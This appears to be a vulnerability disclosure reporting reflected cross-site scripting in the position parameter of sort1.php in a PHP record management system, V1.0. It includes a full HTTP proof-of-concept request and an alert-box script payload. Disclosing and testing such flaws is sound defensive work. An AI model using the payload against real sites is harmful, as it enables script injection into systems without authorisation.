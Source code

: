 ### VUL_AUTHOR:netmanzhang
# Record management system – reflected XSS on (sort1.php position parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort1.php 

On this page, position parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST /Personnel_record_management_system/sort1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/sort.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter1=&position="><script>alert(1)</script>
```
## Payload：
```
"><script>alert(1)</script>
```
## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/0cd9d1a9-613a-48fb-a917-c0eed83119e7">

